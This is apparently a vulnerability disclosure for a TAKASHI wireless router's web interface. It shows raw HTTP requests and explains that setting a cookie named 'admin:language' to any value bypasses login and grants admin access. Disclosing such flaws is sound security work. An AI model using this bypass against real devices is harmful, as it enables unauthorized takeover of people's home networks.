 #TAKASHI Wireless Instant Router And Repeater Web Application Authentication Bypass
Software version 	    V5.07.38_AAL03
Hardware version 	    V3.0 

This vulnerability is related to how the web application handles sessions for authenticated users. The issue arises due to improper session management, allowing unauthorized users to gain admin-level access.

#Below You Will See A Request Comparison

To understand how this vulnerability works, let's compare an unauthenticated request to an authenticated request.

**An unauthenticated request looks like this:**

POST /LoginCheck HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: `http://192.168.2.1/login.asp`
Content-Type: application/x-www-form-urlencoded
Content-Length: 46
Origin: `http://192.168.2.1`
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en
Upgrade-Insecure-Requests: 1
Priority: u=0, i

Username=admin&checkEn=0&Password=whatsthepassword

**When the user is authenticated, the request looks like this:**

GET /wireless_basic.asp HTTP/1.1
Host: `192.168.2.1`
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: `http://192.168.2.1/advance.asp`
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Cookie: language=en; admin:language=en
Upgrade-Insecure-Requests: 1
Priority: u=4


Key Difference

The key difference between the two requests is the presence of the following cookie:

`admin:language=en`

The Vulnerability

This vulnerability is based on the way the application validates session data. By manipulating the admin:language cookie, an unauthenticated user can gain access to authenticated pages.
Exploit Mechanics

To exploit this vulnerability, all an attacker needs to do is set the cookie admin:language with any arbitrary value. The application will trust this cookie and treat the user as an authenticated admin.

`admin:language=<any_value>`

Where <any_value> can be any string,text or numbers. As long as the cookie is given that name, the application will behave as if the user is authenticated.
Conclusion

This vulnerability shows the importance of proper session management.
